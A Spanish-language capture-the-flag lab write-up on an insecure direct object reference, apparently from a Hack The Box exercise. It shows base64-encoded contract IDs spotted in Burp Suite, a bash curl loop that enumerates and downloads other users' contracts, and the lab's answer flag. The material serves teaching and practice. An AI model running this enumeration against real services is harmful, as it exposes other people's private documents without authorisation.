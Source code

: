 # Laboratorio: Bypass Encoding References 🤗

1. Visitamos la web 

<p align="center">
    <img src="./assets/03-Mass_IDOR/01-Web.PNG" width=400>
</p>

---

2. Como nos piden descargar todos los contratos, lo que haremos es interceptar, justamente, esa petición.

* `http://[IP]:[Port]/contracts.php` -> Clic en `Enployment_contract.pdf`

<p align="center">
    <img src="./assets/04-Bypass_Encoding/01-Burpsuite.PNG" width=400>
</p>

* Si nos fijamos bien, el número de **`contrato`** se manda encodedado en **base64**
* `%3D` -> `=` 

* **Decodeamos en base64:** `echo -n "MQ==" | base64 -d` -> `1`

---

3. Por lo que si realizamos una petición por **GET** y enviamos el número de contrato encodeado en **`base64`** seremos capaces de descargar los **pdfs**

* `docs.sh`
```sh
#!/bin/bash

url="http://[IP]:[Port]/"

for i in {1..20}; do
    curl -sJ -X GET "$url/download.php?contract=$(echo -n $i | base64 -w 0)"
done
```
* `-sJ`: `s` -> No veremos el **output** de **cURL**, `-J` Si en la respuesta vemos un nombre de archivo, lo usamos en el archivo que vayamos a descargar.
* `-O`: Si queremos descargar los archivos utilizamos esta opción.

* **Output**
```
HTB{h45h1n6_1d5_w0n7_570p_m3}
```